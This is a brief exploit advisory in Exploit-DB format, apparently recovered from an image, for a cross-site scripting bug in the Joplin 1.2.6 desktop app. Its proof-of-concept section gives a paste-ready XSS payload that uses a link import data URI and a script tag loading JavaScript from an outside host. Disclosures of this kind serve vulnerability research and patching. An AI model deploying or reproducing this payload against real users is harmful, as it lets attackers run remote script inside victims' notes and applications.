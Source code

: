 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting
 Date: 2020-09-21
 Exploit Author: Philip Holbrook (@fhlipZero)
 Vendor Homepage: https://joplinapp.org/
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
 Version: 1.2.6
 Tested on: Windows / Mac
 CVE : PENDING
 References:
 PENDING next release

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>


![Screen Shot 2020-10-27 at 4.42.34 PM.png](./60b6772ab455487b92268ad45a6dd677.png)

![Screen Shot 2020-10-27 at 4.42.51 PM.png](./7f76fb066b9d4e3bad4c4b59538140e4.png)

